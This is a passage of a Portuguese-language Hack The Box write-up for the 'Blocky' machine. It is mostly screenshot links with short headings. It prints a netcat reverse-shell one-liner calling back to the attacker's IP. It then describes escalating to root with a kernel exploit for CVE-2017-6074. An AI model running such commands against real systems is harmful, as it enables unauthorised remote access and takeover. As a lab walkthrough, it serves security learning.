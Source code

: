 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blocky/Blocky_php11.png)

#### Verificamos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blocky/Blocky_php12.png)

#### Ganhamos um shell na máquina

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.119 443 >/tmp/f

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blocky/Blocky_php13.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blocky/Blocky_php14.png)

#### Rodamos o script Linux-Exploit-Suggester para escalação de privilégio através de exploits de kernel

> https://github.com/mzet-/linux-exploit-suggester

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blocky/Blocky_les.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blocky/Blocky_www.png)

##### Vamos explorar essa vulnerabilidade do Kernel `CVE-2017-6074`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blocky/Blocky_www1.png)

###### Pesquisamos e encontramos um exploit para ele

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blocky/Blocky_exp.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blocky/Blocky_exp1.png)

##### Copiamos para nossa máquina e verificamos como compilar ele, compilamos e enviamos para a máquina Blocky

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blocky/Blocky_exp2.png)

##### Tornamos executável e ganhamos shell de root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-blocky/Blocky_exp3.png)